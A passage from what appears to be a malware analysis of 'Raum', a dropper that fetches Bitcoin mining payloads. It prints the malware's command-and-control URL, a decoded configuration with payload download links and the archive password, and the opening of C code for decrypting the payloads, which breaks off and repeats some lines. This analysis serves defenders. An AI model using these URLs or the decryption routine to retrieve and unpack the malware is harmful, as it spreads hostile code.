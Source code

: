 One interesting thing to note is that during this analysis, Raum only downloaded Bitcoin mining programs, although it could potentially download and run anything that was put on the software distribution servers.

```
http://82.146.54.187/3Ug6mll4M9u2kalAsPEf6B5oiijFa4F03Ug6mll4M9u2kalAsPEf6B5oiijFa4F0/0/1/0/0/15/0:0:0/3/
```
This connection string is unique for each client. Among the info submitted, the malware will report back if it's a 32 or 64 bit system to influence what mining package will be downloaded.

This is the new configuration, downloaded in xml format.

```xml
<3Ug6m>
    <lm4lU>15</lm4lU>
    <l4mlg>http://82.146.54.187/bitfury_updates/nop_3.update.raum</l4mlg>
    <4llm6>666AnotherPassword666</4llm6>
    <Alak2>
        <sPEf6>null</sPEf6>
        <l4mlg>http://82.146.54.187/reborn_updates/95.raw</l4mlg>
    </Alak2>
</3Ug6m>
   <g63Ul>true</g63Ul>
   <6gU34>http://82.146.54.187/,http://82.146.54.187/</6gU34>
<mll43>60</mll43>
```

- This file contains the password to decompress Raum files: `<4llm6>666AnotherPassword666</4llm6>` 
- Raum location in the remote server: `<l4mlg>http://82.146.54.187/bitfury_updates/nop_3.update.raum</l4mlg>` 
- Raum updates: `<l4mlg>http://82.146.54.187/reborn_updates/95.raw</l4mlg>`

The following code can decrypt the Raum files:

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>


int RecorreArray_401000(char *a1){
  char *i; // eax@1
  for (i = a1; *i; ++i )
    ;
  return i - a1;
}

/**/
FILE *DecodeFile_40152A(char *Filename, char  *a2)
{
  
  FILE *result; // eax@1
  unsigned int i; // [sp+4h] [bp-14h]@2
  unsigned int v4; // [sp+8h] [bp-10h]@2
  unsigned int Size; // [sp+Ch] [bp-Ch]@2
  void *DstBuf; // [sp+10h] [bp-8h]@2
  FILE *File,*dresult; // [sp+14h] [bp-4h]@2

  result = fopen(Filename, "rb");
  dresult = fopen("decrypt.raw","ab");
   result = fopen(Filename, "rb");
  dresult = fopen("decrypt.raw","ab");

  if ( result )
  {
```